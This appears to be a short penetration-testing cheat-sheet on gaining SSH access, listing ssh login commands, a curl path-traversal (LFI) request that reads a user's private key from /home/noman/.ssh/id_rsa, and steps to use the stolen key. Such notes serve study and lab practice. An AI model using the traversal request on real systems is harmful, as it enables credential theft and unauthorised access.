 # SSH

You can’t get initial access directly however we can login with user and password and private key.

#### 1) Login with credentials

    ssh noman@ip

    ssh -p 2222 noman@192.168.10.10 ( ssh use with different port )

#### 2) Get ssh private key via LFI (example)

    curl http://<ip>/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa

#### 3) Give permissions on key

    chmod 600 id_rsa

Then 

    ssh -i id_rsa -p 2222 noman@ip

    user/.ssh/authorized key
